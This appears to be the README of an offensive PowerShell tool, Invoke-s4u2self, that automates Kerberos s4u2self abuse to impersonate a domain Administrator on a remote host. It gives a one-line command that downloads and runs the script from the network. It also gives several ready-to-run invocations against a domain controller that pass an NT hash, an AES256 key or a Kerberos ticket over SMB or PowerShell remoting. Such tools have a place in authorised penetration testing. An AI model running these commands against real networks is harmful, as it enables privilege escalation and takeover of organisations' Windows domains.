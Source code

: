 # Invoke-s4u2self
A tool that automates s4u2self abuse to gain access to remote hosts

Run as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SessionHunter/main/Invoke-s4u2self.ps1')
```

### SMBRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

### PSRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/b9075667-bee3-40b6-bf6e-e4d227ac6ac9)

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/ab213a41-dcbf-4b48-a67c-e0ebe478be12)


### Dependencies:
Invoke-SMBRemoting: https://github.com/Leo4j/Invoke-SMBRemoting

Rubeus: https://github.com/GhostPack/Rubeus
